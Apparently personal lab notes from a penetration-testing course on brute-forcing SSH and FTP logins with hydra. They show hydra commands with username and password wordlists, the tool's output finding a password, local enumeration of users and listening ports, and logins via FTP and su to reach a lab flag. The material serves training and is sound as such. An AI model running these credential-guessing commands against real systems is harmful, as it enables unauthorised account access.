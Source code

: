 
***
###### `Title :- Service Authentication Brute Force`
###### `Created on :- 2023-06-26 - 07:37`
###### `Created by:- Prem J`
***

- some service require login to perform any actions, some of them are ssh and ftp.

#### `SSH Attack -->`

- the command is similar to normal brute force attack, `hydra` will suggest that we add the `-t 4` flag for a max number of parallel attempts, as many `SSH` limit the number of parallel connections and drop other connections, resulting in many of our attempts being dropped.

```shell-session
hydra -L bill.txt -P william.txt -u -f ssh://178.35.49.134:22 -t 4
```

- It may take some time but at the end we would get the credentials, upon finding the credentials we can login and perform further actions.

#### `FTP Attack -->`

- Once we are in, we can check out what other users are on the system.

```shell-session
b.gates@bruteforcing:~$ ls /home

b.gates  m.gates
```

- We notice another user, `m.gates`. We also notice in our local `recon` that port `21` is open locally, indicating that an `FTP` must be available.

```shell-session
b.gates@bruteforcing:~$ netstat -antp | grep -i list

(No info could be read for "-p": geteuid()=1000 but you should be root.)
tcp        0      0 127.0.0.1:21            0.0.0.0:*               LISTEN      - 
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      -                  
```

+ Next, we can try brute forcing the `FTP` login for the `m.gates` user now.
+ So, similarly to how we attacked the `SSH` service, we can perform a similar attack on `FTP` .

```shell-session
b.gates@bruteforcing:~$ hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1

Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra)
[DATA] max 16 tasks per 1 server, overall 16 tasks, 92 login tries (l:1/p:92), ~6 tries per task
[DATA] attacking ftp://127.0.0.1:21/

[21][ftp] host: 127.0.0.1   login: m.gates   password: <...SNIP...>
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra)
```

- We can now attempt to `FTP` as that user, or even switch to that user. Let us try both:

```shell-session
b.gates@bruteforcing:~$ ftp 127.0.0.1

Connected to 127.0.0.1.
220 (vsFTPd 3.0.3)
Name (127.0.0.1:b.gates): m.gates

331 Please specify the password.
Password: 

230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir

200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-------    1 1001     1001           33 Sep 11 00:06 flag.txt
226 Directory send OK.
```

```shell-session
b.gates@bruteforcing:~$ su - m.gates

Password: *********
m.gates@bruteforcing:~$ whoami

m.gates
```